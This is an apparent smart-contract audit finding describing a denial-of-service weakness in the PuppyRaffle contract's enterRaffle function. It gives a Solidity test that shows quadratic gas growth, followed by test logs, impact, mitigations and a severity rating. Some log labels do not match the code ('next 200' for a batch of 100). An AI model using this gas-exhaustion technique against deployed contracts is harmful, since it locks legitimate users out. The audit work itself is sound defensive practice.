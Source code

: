 # DoS Attack Proof of Concept

## Overview
This test demonstrates a potential Denial of Service (DoS) vulnerability in the PuppyRaffle contract by measuring gas consumption when entering multiple players into the raffle.

## Attack Vector
The attack exploits the gas consumption of the `enterRaffle` function when processing multiple players. The gas cost increases with the number of players, potentially making the function too expensive to execute.

## Proof of Concept
```solidity
function test_DoSAttack() public {
    // Set gas price to 1 for consistent measurements
    vm.txGasPrice(1);
    
    // First batch of 100 players
    uint256 numPlayers = 100;
    address[] memory players = new address[](numPlayers);
    for (uint256 i = 0; i < numPlayers; i++) {
        players[i] = address(i);
    }

    // Measure gas for first batch
    uint256 gasBefore = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(players);
    uint256 gasAfter = gasleft();
    console.log("Gas used with the first 100: ", (gasBefore - gasAfter) * tx.gasprice);

    // Second batch of 100 players
    address[] memory players2 = new address[](numPlayers);
    for (uint256 i = 0; i < numPlayers; i++) {
        players2[i] = address(numPlayers + i);
    }
    
    // Measure gas for second batch
    uint256 gasBefore2 = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(players2);
    uint256 gasAfter2 = gasleft();
    console.log("Gas used with the next 200: ", (gasBefore2 - gasAfter2) * tx.gasprice);
}
```

## Test Results
```
[PASS] test_DoSAttack() (gas: 25537704)
Logs:
  Gas before 1073702769
  Gas after 1067199497
  Gas used with the first 100:  6503272
  Gas used with the next 200:  18995517
```

### Analysis of Results
- First 100 players: 6,503,272 gas
- Next 100 players: 18,995,517 gas
- The gas cost nearly tripled (~2.92x increase) for the same number of players
- This demonstrates quadratic growth in gas costs as the number of players increases

## Impact
- The gas cost increases with the number of players
- An attacker could potentially make the function too expensive to execute by submitting a large number of players
- This could prevent legitimate users from entering the raffle

## Mitigation
1. Limit the maximum number of players that can be entered in a single transaction
2. Implement a maximum total number of players for the raffle
3. Consider using a more gas-efficient data structure for storing players
4. Implement a time-based cooldown between entries

## Severity
Medium - While this doesn't directly lead to fund loss, it could prevent the contract from functioning as intended and potentially lock users out of the raffle.